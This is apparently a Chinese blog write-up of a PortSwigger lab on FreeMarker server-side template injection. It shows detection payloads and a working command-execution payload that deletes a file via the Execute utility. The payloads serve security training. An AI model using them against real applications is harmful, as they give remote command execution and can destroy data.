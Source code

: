 该网站可以对发布的网页模板进行编辑



![](https://raw.githubusercontent.com/h1iba1/h1iba1.github.io/refs/heads/master/_posts/portswigger-labs/模板注入/images/0F739E146B164583B2A1F2C3DF1CA1B0clipboard.png)



## paylaod:

```javascript
${test}
```



模板无法解析报错

![](https://raw.githubusercontent.com/h1iba1/h1iba1.github.io/refs/heads/master/_posts/portswigger-labs/模板注入/images/F9E21DE131C647FC913D2DB393600ED2clipboard.png)

根据报错信息知道是freemarker模板



## 测试paylaod:

```javascript
${7*7}
```



返回页面查看存在49说明存在漏洞



## 命令执行paylaod:

```javascript
<#assign ex="freemarker.template.utility.Execute"?new()> ${ ex("rm /home/Carlos/morale.txt") }
```

